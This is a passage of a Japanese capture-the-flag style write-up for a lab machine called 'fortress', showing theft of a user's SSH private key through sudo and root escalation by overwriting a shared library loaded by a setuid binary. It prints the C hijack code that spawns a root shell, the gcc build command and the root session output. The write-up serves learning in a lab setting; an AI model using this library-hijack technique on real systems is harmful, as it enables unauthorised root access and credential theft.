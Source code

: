 j4x0n の SSH 秘密鍵入手。

```sh
h4rdy@fortress:/home/j4x0n$ sudo -u j4x0n cat .ssh/id_rsa
```

## 権限昇格２

先に見つけていたこの弱点。

```sh
h4rdy@fortress:/home/j4x0n$ /bin/ls -al /opt
total 28
drwxr-xr-x  2 root root  4096 Jul 26  2021 .
drwxr-xr-x 23 root root  4096 Jul 25  2021 ..
-rwsrwxr-x  1 root root 16696 Jul 26  2021 bt

h4rdy@fortress:/home/j4x0n$ /usr/bin/file /opt/bt
/opt/bt: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb7bf398a6ca5b7782a85f0afcdd3554d44ca151, for GNU/Linux 3.2.0, not stripped

h4rdy@fortress:/home/j4x0n$ /usr/bin/ldd /opt/bt
        linux-vdso.so.1 =>  (0x00007ffd7e5ed000)
        libfoo.so => /usr/lib/libfoo.so (0x00007fd0417ef000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd041212000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fd0415dc000)
```

so を上書きして bt を実行したら、任意のコードを実行できるはず。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setgid(0);
        setuid(0);
        system("/bin/bash -p");
}
```

```c
gcc -fPIC -shared -o /usr/lib/libfoo.so src.c -nostartfiles
```

root シェルゲット！

```sh
j4x0n@fortress:~$ /opt/bt
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@fortress:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(j4x0n)
```
